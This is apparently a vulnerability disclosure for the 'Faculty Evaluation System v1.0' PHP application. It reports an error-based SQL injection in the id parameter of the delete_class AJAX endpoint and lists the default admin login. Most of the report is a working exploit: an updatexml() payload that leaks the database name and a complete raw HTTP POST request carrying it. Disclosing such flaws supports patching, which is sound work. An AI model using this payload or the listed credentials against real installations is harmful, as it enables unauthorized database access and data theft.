# Faculty Evaluation System v1.0 by oretnom23 has SQL injection

Admin account password： admin@admin.com/admin123
 
BUG_Author: oV

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /eval/ajax.php?action=delete_class

Vulnerability location: /eval/ajax.php?action=delete_class, id

dbname =evaluation_db

[+] Payload: id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /eval/ajax.php?action=delete_class HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/eval/index.php?page=class_list
Content-Length: 64
Cookie: PHPSESSID=lrrse02i69soj9l3lnarhnd9ck
Connection: close

id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/233828085-a6bb494e-dafe-4bcb-8e07-84f7f3267f9e.png)
